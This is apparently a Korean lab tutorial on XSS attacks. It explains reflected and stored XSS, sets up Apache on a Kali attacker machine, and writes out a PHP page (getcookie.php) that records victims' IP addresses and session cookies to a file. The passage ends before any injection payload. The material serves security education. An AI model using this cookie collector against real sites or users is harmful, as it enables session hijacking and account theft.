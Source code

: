 <br>

2003 -> 게시판 글 읽고 url 클릭 해보기

![2022-10-26-64확인](../images/2022-10-26-애플리케이션 공격 유형/2022-10-26-64확인.jpg)

공격자는 해당 링크를 게시판/이메일/메신저 ... 으로 전달하여 상대가 클릭하도록 유도 하는 공격 방식 입니다.

<br>

<br>

<br>

##### stored XSS test

![2022-10-26-65스토어드](../images/2022-10-26-애플리케이션 공격 유형/2022-10-26-65스토어드.jpg)

reflective는 게시판에 들어가서 url을 눌러야 실행

게시판의 게시물을 선택하는 순간 자동으로 실행

이 부분이 차이점 입니다.

<br>

##### XSS  실제 적용

구성도

![2022-10-26-66구성도](../images/2022-10-26-애플리케이션 공격 유형/2022-10-26-66구성도.jpg)

<br>

환경 구성

kali

```
systemctl restart apache2      << apache 실행
systemctl status apache2       << 실행 확인
```

xp -> kali web 접속

![2022-10-26-67칼리](../images/2022-10-26-애플리케이션 공격 유형/2022-10-26-67칼리.jpg)

<br>

kali -> 공격 대상의 정보가 기록 되도록 Web Server 구성

```
공격대상이 자신의 PHP 세션정보를 기록할 페이지를 작성 
vim /var/www/html/getcookie.php

<?php
 $fd=fopen("/tmp/cookie.dat","a+");
 while(list($key,$val)=each($_GET))
 {
   fputs($fd,$_SERVER['REMOTE_ADDR']."");
   fputs($fd,$key);
   fputs($fd,"=");
   fputs($fd,$val);
   fputs($fd,"\n"); 
 }
 fclose($fd);
?>
```
